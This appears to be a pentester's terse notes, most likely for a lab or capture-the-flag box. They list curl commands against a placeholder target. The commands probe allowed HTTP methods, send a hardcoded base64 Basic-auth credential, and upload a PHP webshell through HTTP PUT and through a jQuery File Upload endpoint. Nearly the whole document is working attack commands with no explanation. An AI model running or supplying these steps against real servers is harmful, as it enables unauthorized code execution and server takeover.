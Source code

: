 ```yaml
---
category: Uncategorized
tags: []
---
```

```bash - kali
curl -v -X OPTIONS http://$TARGET/test
```

```bash - kali
curl -v -X OPTIONS http://$TARGET/test -H "Authorization: Basic YWRtaW5pc3RyYW50OnNsZWVwbGVzcw=="
```

![[0._PHP_Webshells#wwolf]]

```bash - kali
curl --upload-file webshell.php -v --url http://$TARGET/test/webshell.php -0 --http1.0 -H "Authorization: Basic YWRtaW5pc3RyYW50OnNsZWVwbGVzcw=="
```

```bash - kali
curl -F "files=@webshell.php" http://$TARGET/jquery-file-upload/server/php/
```

